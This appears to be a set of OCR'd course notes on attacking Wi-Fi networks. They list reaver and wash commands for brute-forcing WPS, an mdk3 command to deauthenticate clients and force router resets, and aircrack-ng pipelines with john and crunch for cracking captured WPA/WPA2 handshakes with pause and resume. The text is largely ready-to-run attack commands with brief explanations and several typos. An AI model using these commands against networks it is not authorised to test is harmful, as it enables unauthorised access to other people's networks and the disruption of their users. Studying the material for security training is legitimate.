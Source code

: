 #> reaver --bssid <> --channel <> mon0 -A
#> reaver --bssid <> --channel <> mon0 -A -vvv 
#> reaver --bssid <> --channel <> -i  mon0  
#> wash -i mon0
Rourter stopped, keep deuthenticating the other users, then someone will turn off and turn on
-----------------------------------------------------------------------------------------------------------
MD3 is a tool designed to exploit a number of weakness in 802.11 protocol
Some of its exploits can cause the router to reset
Some routers unlock their WPS when they reset
mdk3 mon0 a -a < mac> -m 
--------------------------------------------------------------------------------------------------------------
WPA /WPA2 Cracking
Fixed all weakness in WEP
Packets contains no useful data 
Only packets that can aid with the cracking process are the handshake packets
These are 4 packets sent when a client connects to the network
--------------------------------------------------------------------------------------------------------------
WPA / WPA2 Cracking

*  The handshake does not contain data the helps recover the key
*  It contains data that can be used to check if a key is valid or not

aircrack-ng wpa_handshake-01.cap -w test.txt
----------------------------------------------------------------------------------------------------------------
Pause & Resume cracking

Problem:
    - Large wordlist can take a long time
    - Aircrack-ng starts doesn't save cracking progress
Solution 
    - Use a program that can store proress to read the wordlist
    - Pipe its output to aircrack-ng
--------------------------------------------------------------------------------------------------------------------
john  --wordlist=wpa-wordlist --stdout
john  --wordlist=wpa-wordlist  --stdout --session=upc | aircrack-ng -w - -b < mac> < ex: handshake-01.cap>   (-  get the wordlist from previous command)
john  --restore=upc | aircrack-ng -w - -b < mac> < ex: handshake-01.cap>   (-  get the wordlist from previous command)
crunch 8 8 | aircrack-ng -b < mac> -w - < handshake-01.cap>
-----------------------------------------------------------------------------------------------------------------------------
Piping wordlist to aircrack with pause & resume support

* Large wordlist can take a lot of space
*  Ideally we want to be able to:
    1. Use large wordlists without taking up disk space
    2. Stop cracking and resume without loosing progress

crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng -b < mac address> -w - < handshake-01.cap>
crunch 8 8 | john --stdin --restore=session1 | aircrack-ng -b < mac address> -w - < handshake-01.cap>
-----------------------------------------------------------------------------------------------------------------------------------
Cracking WPA/WPA2  : Cracking the key

